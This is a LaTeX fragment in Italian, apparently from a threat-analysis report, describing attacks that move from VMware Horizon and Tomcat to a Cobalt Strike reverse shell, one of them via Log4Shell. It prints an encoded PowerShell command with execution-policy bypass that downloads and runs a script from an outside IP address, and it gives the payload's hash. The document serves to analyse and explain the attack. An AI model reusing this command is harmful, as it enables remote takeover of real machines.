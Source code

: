 \documentclass[12pt,a4paper]{article}
\begin{document}
\paragraph{Attacco: VMware -> Tomcat -> Cobalt} Gli hacker inziano l'attacco
eseguendo il servizio Tomcat che termina con l'esecuzione dello script
PowerShell, il quale a sua volta esegue una "reverse shell standard" di Cobalt
Strike:

\begin{verbatim}
    powershell.exe -exec bypass -enc 
    aQBlAHgAIAAoACgATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQB
    tAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG
    8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOAA1AC4AMQ
    AxADIALgA4ADMALgAxADEANgA6ADgAMAA4ADAALwBkAHIAdgAnACkAKQA=
\end{verbatim}

Il comando decodifica:

\begin{figure}[ht]
    \centering
    \includegraphics[width=0.95\textwidth]{./images/powershell1.png}
    \caption{Comando su powershell}
    \label{fig:powershell_command1}
\end{figure}

Viene scaricato il file \\
\textit{sha256:6c7182d945e7e7ae8f7c289c9f4655295408cf14b72bab9686cc8dbebe845f4e}
che rappresenta la reverse shell Cobalt Strike.

Questo attacco, però, lasciava diverse tracce.

\paragraph{Attacco: Log4J -> VMware-Horizon}
Un attacco più difficile da individuare è quello che sfrutta direttamente la
falla di Log4Shell per arrivare al server Tomacat.

Nella poweshell, viene eseguito il seguente codice che permette al intruso di
prendere il controllo della macchina:

\begin{figure}[ht]
    \centering
    \includegraphics[width=0.95\textwidth]{./images/powershell2.png}
    \caption{Comando su powershell}
    \label{fig:powershell_command2}
\end{figure}
\end{document}
